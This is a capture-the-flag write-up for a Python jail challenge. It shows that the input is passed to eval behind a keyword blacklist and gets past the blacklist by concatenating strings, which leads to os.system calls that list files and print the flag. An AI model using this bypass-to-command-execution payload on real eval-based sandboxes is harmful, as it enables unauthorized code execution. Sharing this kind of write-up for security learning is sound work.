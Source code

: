 # Challenge Solution

This challenge is a classic python jail.

Pretty much the first steps in every challenge of this kind is to find out what we are and aren't allowed to do.

Let's try get it to print the number 1.

```python
>> print(1)
bad bad!
```

Well, looks like it doesn't like us printing stuff. Maybe print is a filtered word?

Let's see what happens if we don't try and call a function. Let's just give it the number 1.

```python
>> 1
eval() arg 1 must be a string, bytes or code object
```

Okay, so looks like our input is being evaled. Let's try give it a string to eval. Let's try print again, but with a little bit of a filter bypass.

```python
>> 'pri'+'nt(1)'
1
```

Okay, now we're getting somewhere. Looks like the filter is just a blacklist of words to look for in our input.

Let's try import os and see if we can execute a command.
We use `__import__("os")` instead of `import os` so we can chain everything together in one command.
The strings are concatenated together in order to avoid any potential blacklisting.

```python
>> 'pri'+'nt(__im'+'port__("os").syst'+'em("ls"))'
flag.txt
jail.py
python3
0
```

Awesome! Let's print the flag.


```python
>> 'pri'+'nt(__im'+'port__("os").syst'+'em("cat fl"+"ag.txt"))'
HACKMAC{1m_50_50rry_17_w1ll_n3v3r_h4pp3n_4g41n}
0
```
